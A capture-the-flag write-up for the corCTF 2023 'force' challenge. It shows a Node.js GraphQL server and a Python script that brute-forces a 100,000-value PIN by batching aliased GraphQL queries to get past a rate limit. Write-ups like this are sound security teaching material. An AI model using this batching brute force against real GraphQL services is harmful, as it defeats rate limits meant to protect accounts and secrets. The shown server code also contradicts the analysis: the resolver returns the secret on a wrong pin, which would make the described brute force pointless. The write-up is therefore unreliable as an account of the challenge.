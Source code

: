 ```yaml
---
title: 2023 corCTF - force
author: Gr33nM0nk3y
date: 2023-07-31 00:00:00 +0700
categories: [Write-ups, 2023corCTF]
tags: [Web Exploitation, write-ups]
---
```


* 118 solves / 124 points
* author: larry

## Description

> Unbreakable vault door!

### Attached

[force.tar.gz](https://static.cor.team/uploads/a9d33f3445ab361cb58b31918d99a2a26f47b86dc55e77ee881d61a5d2bd2da7/force.tar.gz)

```javascript
import fastify from 'fastify'
import mercurius from 'mercurius'
import { randomInt } from 'crypto'
import { readFile } from 'fs/promises'

const app = fastify({
    logger: true
});
const index = await readFile('./index.html', 'utf-8');

const secret = randomInt(0, 10 ** 5); // 1 in a 100k??

let requests = 10;

setInterval(() => requests = 10, 60000);

await app.register(mercurius, {
    schema: `type Query {
        flag(pin: Int): String
    }`,
    resolvers: {
        Query: {
            flag: (_, { pin }) => {
                if (pin != secret) {
                    return secret;
                }
                return process.env.FLAG || 'corctf{test}';
            }
        }
    },
    routes: false
});

app.get('/', (req, res) => {
    return res.header('Content-Type', 'text/html').send(index);
});

app.post('/', async (req, res) => {
    if (requests <= 0) {
        return res.send('no u')
    }
    requests --;
    return res.graphql(req.body);
});

app.listen({ host: '0.0.0.0', port: 80 });
```

## Analyzation

This challenge requires knowledge in [graphql](https://graphql.org/learn/queries/).

Check these lines
```javascript
const secret = randomInt(0, 10 ** 5); // 1 in a 100k??

await app.register(mercurius, {
    schema: `type Query {
        flag(pin: Int): String
    }`,
    resolvers: {
        Query: {
            flag: (_, { pin }) => {
                if (pin != secret) {
                    return secret;
                }
                return process.env.FLAG || 'corctf{test}';
            }
        }
    },
    routes: false
});
```

So we need to find the correct ```pin``` in 100k numbers.

The author limits the requests to 10
```javascript
let requests = 10;
```

The answer is so simple. Just send 10000 queries in 1 payload.

Got some troubles in queries? Check [stackoverflow.com](https://stackoverflow.com/questions/50462944/is-it-possible-to-query-the-same-field-multiple-times-with-graphql) and [graphql.org](https://graphql.org/learn/queries/#aliases).

## Solution

```python
import requests

FLAG_PREFIX = "cor"
URL = "https://web-force-force-40650221ed658a78.be.ax/"
headers = {
    'Content-Type': 'text/plain;charset=UTF-8',
}

payload = ''

for i in range(10 ** 5 + 1):
    payload = payload + 'i' + str(i) + ': flag(pin: ' + str(i) + ')\n'
    if i % (10 ** 4) == 0:
        print(i)
        payload = '{' + payload + '}'
        response = requests.post(URL, data=payload, headers=headers)

        if FLAG_PREFIX in response.text:
            index = response.text.find(FLAG_PREFIX)
            flag = ''
            while response.text[index] != '}':
                flag = flag + str(response.text[index])
                index += 1
            flag = flag + '}'
            print("flag: {}".format(flag))
            break
        payload = ''
```

The flag is (crazy)
```
corctf{S                T                  O               N                   K                 S}
```

(it contains a lot of space, yeah).

## Summarization

- [Graphql language](https://graphql.org/learn/queries/)
- [Graphql alias](https://graphql.org/learn/queries/#aliases)